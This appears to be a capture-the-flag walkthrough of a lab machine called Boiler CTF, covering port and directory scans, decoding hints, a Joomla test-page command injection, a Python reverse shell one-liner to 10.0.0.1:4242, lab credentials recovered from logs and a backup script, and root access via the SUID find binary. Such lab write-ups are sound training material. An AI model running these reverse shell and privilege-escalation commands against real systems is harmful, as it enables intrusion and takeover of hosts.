# Boiler CTF

## NMAP


```                                                                                                  
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sS -p- 10.10.223.253                  
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-27 10:51 EDT
Nmap scan report for 10.10.223.253
Host is up (0.054s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
10000/tcp open  snet-sensor-mgmt
55007/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 139.82 seconds


┌──(kali㉿kali)-[~]
└─$ sudo nmap -sSVC -p 21,80,10000,55007 10.10.223.253
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-27 10:55 EDT
Nmap scan report for 10.10.223.253
Host is up (0.050s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.191.218
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 1 disallowed entry 
|_/
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)
|   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)
|_  256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.00 seconds
```

## Webmin



It is not exploitable

## Website

### Robots



```
079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```

```
string = "079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075"


count = 0
composed_string = ""
for number in string.split(" "):
        count += 1
        int_number = int(number)
        composed_string += chr(int_number)

print("Number of Letters: ", count)
print("String decoded: ", composed_string)
```

```                             
┌──(kali㉿kali)-[~/Desktop/BoilerCTF]
└─$ python3 here.py
Number of Letters:  44
String decoded:  OTliMDY2MGNkOTVhZGVhMzI3YzU0MTgyYmFhNTE1ODQK
```




```                                                                                 
┌──(kali㉿kali)-[~/Desktop/BoilerCTF]
└─$ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 99b0660cd95adea327c54182baa51584

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```




### Gobuster
```                                                            
┌──(kali㉿kali)-[~/Desktop/BoilerCTF]
└─$ gobuster dir -u http://10.10.79.178 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.79.178
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/manual               (Status: 301) [Size: 313] [--> http://10.10.79.178/manual/]
/joomla               (Status: 301) [Size: 313] [--> http://10.10.79.178/joomla/]
/server-status        (Status: 403) [Size: 300]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

┌──(kali㉿kali)-[~/Desktop/BoilerCTF]
└─$ gobuster dir -u http://10.10.79.178 -w /usr/share/wordlists/dirb/common.txt                        
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.79.178
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 291]
/.htaccess            (Status: 403) [Size: 296]
/.htpasswd            (Status: 403) [Size: 296]
/index.html           (Status: 200) [Size: 11321]
/joomla               (Status: 301) [Size: 313] [--> http://10.10.79.178/joomla/]
/manual               (Status: 301) [Size: 313] [--> http://10.10.79.178/manual/]
/robots.txt           (Status: 200) [Size: 257]
/server-status        (Status: 403) [Size: 300]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

### /joomla




**https://docs.joomla.org/What_is_the_typical_template_directory_structure%3F**

**Weid hidden fields**




**Password Reset** and **Username Reset** may be used to enumerate users.




### Weird cookie


Not an hash, not a base I don't think Just Weird

### Administator page




All new installs have a 'Super Administrator account' called admin. As part of the install, Joomla requests a password for this account. Joomla also suggests changing the name of the account from 'admin' to something more difficult to guess. 




Nothing here


## FTP

```
┌──(kali㉿kali)-[~/Desktop/BoilerCTF]
└─$ ftp 10.10.242.193
Connected to 10.10.242.193.
220 (vsFTPd 3.0.3)
Name (10.10.242.193:kali): ftp
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||41313|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> pwd
Remote directory: /
ftp> ls -la
229 Entering Extended Passive Mode (|||46239|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
ftp> 
```

**.info.txt**
```
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```



## Gobuster again

```
                                                                                 
┌──(kali㉿kali)-[~/Desktop/BoilerCTF]
└─$ gobuster dir -u http://10.10.242.193/joomla -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.242.193/joomla
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 299]
/.htaccess            (Status: 403) [Size: 304]
/.htpasswd            (Status: 403) [Size: 304]
/_archive             (Status: 301) [Size: 324] [--> http://10.10.242.193/joomla/_archive/]                                                                       
/_database            (Status: 301) [Size: 325] [--> http://10.10.242.193/joomla/_database/]                                                                      
/_files               (Status: 301) [Size: 322] [--> http://10.10.242.193/joomla/_files/]                                                                         
/_test                (Status: 301) [Size: 321] [--> http://10.10.242.193/joomla/_test/]                                                                          
/~www                 (Status: 301) [Size: 320] [--> http://10.10.242.193/joomla/~www/]                                                                           
/administrator        (Status: 301) [Size: 329] [--> http://10.10.242.193/joomla/administrator/]                                                                  
/bin                  (Status: 301) [Size: 319] [--> http://10.10.242.193/joomla/bin/]                                                                            
/build                (Status: 301) [Size: 321] [--> http://10.10.242.193/joomla/build/]                                                                          
/cache                (Status: 301) [Size: 321] [--> http://10.10.242.193/joomla/cache/]                                                                          
/components           (Status: 301) [Size: 326] [--> http://10.10.242.193/joomla/components/]                                                                     
/images               (Status: 301) [Size: 322] [--> http://10.10.242.193/joomla/images/]                                                                         
/includes             (Status: 301) [Size: 324] [--> http://10.10.242.193/joomla/includes/]                                                                       
/index.php            (Status: 200) [Size: 12484]
/installation         (Status: 301) [Size: 328] [--> http://10.10.242.193/joomla/installation/]                                                                   
/language             (Status: 301) [Size: 324] [--> http://10.10.242.193/joomla/language/]                                                                       
/layouts              (Status: 301) [Size: 323] [--> http://10.10.242.193/joomla/layouts/]                                                                        
/libraries            (Status: 301) [Size: 325] [--> http://10.10.242.193/joomla/libraries/]                                                                      
/media                (Status: 301) [Size: 321] [--> http://10.10.242.193/joomla/media/]                                                                          
/modules              (Status: 301) [Size: 323] [--> http://10.10.242.193/joomla/modules/]                                                                        
/plugins              (Status: 301) [Size: 323] [--> http://10.10.242.193/joomla/plugins/]                                                                        
/templates            (Status: 301) [Size: 325] [--> http://10.10.242.193/joomla/templates/]                                                                      
/tests                (Status: 301) [Size: 321] [--> http://10.10.242.193/joomla/tests/]                                                                          
/tmp                  (Status: 301) [Size: 319] [--> http://10.10.242.193/joomla/tmp/]                                                                            
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

## joomla/_test/





This give us RCE -> https://www.exploit-db.com/exploits/47204




It has netcat so we can probably get a reverse shell from here


## Reverse Shell

Used a python3 reverse shell

```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'```



Upgrade to TTY:
```python -c 'import pty; pty.spawn("/bin/bash")'```


### log.txt

```
www-data@Vulnerable:/var/www/html/joomla/_test$ cat log.txt
cat log.txt
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
www-data@Vulnerable:/var/www/html/joomla/_test$ 
```

```
www-data@Vulnerable:/$ su basterd
su basterd
Password: superduperp@$$

basterd@Vulnerable:/$ 
```

## Priv esc to stoner

We can login to basterd on ssh with the credentials basterd:superduperp@$$

```
┌──(kali㉿kali)-[~]
└─$ ssh basterd@10.10.242.193 -p 55007
```

```
basterd@Vulnerable:~$ ls -la 
ls -la 
total 16
drwxr-x--- 3 basterd basterd 4096 Aug 22  2019 .
drwxr-xr-x 4 root    root    4096 Aug 22  2019 ..
-rwxr-xr-x 1 stoner  basterd  699 Aug 21  2019 backup.sh
-rw------- 1 basterd basterd    0 Aug 22  2019 .bash_history
drwx------ 2 basterd basterd 4096 Aug 22  2019 .cache
```

```
basterd@Vulnerable:~$ cat backup.sh 
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows
```

```
basterd@Vulnerable:~$ su stoner
Password: superduperp@$$no1knows
stoner@Vulnerable:/home/basterd$ 
```

```
stoner@Vulnerable:~$ ls -la
total 16
drwxr-x--- 3 stoner stoner 4096 Aug 22  2019 .
drwxr-xr-x 4 root   root   4096 Aug 22  2019 ..
drwxrwxr-x 2 stoner stoner 4096 Aug 22  2019 .nano
-rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret
stoner@Vulnerable:~$ cat .secret 
You made it till here, well done.
```

## Priv Esc

```
stoner@Vulnerable:/home$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
```

```
stoner@Vulnerable:~$ find / -perm -4000 2>/dev/null
/bin/su
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping6
/bin/ping
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/apache2/suexec-custom
/usr/lib/apache2/suexec-pristine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgidmap
/usr/bin/find
/usr/bin/at
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newuidmap
```

We can use find to privesc

```
stoner@Vulnerable:~$ /usr/bin/find . -exec /bin/sh -p \; -quit
# whoami
root
```